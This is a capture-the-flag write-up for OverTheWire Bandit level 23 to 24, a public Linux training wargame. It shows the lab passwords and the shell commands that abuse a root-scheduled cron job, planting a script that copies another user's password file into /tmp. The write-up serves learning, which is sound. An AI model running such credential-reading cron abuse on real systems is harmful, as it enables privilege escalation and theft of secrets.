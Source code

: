 ```yaml
---
title: OverTheWire Bandit Level 23 - 24
date: 2022-07-29T06:00:00
tags: [OverTheWire, Bandit, Linux, shell]
---
```

# Prompt
> A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

# Solution
```sh
$ ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit.labs.overthewire.org password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root cronjob_bandit17_root cronjob_bandit22 cronjob_bandit23 cronjob_bandit24 cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*; do
	if [ "$i" != "." -a "$i" != ".." ]; then
		echo "Handling $i"
		owner="$(stat --format "%U" ./$i)"
		if [ "${owner}" = "bandit23" ]; then
			timeout -s 9 60 ./$i
		fi
		rm -f ./$i
	fi
done
bandit23@bandit:~$ ls -l /var/spool/
drwxrwx-wx 25 root bandit24 659456 Jul 29 04:32 bandit24
bandit23@bandit:~$ mkdir /tmp/bandit23
bandit23@bandit:~$ chmod 777 /tmp/bandit23
bandit23@bandit:~$ touch /tmp/bandit23/bandit24.txt
bandit23@bandit:~$ chmod a+rwx /tmp/bandit23/bandit24.txt
bandit23@bandit:~$ printf '#!/bin/bash\ncat /etc/bandit_pass/bandit24 > /tmp/bandit23/bandit24.txt\n' > /tmp/bandit23/bandit23.sh
bandit23@bandit:~$ chmod +rx /tmp/bandit23/bandit23.sh
bandit23@bandit:~$ cp /tmp/bandit23/bandit23.sh /var/spool/bandit24
# wait for a minute
bandit23@bandit:~$ cat /tmp/bandit23/bandit24.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# References
* MayADevBe. (2022, May 24). OverTheWire Bandit Level 23 - 24. MayADevBe. <https://mayadevbe.me/posts/overthewire/bandit/level24/>
* <https://crontab.guru/#*_*_*_*_*>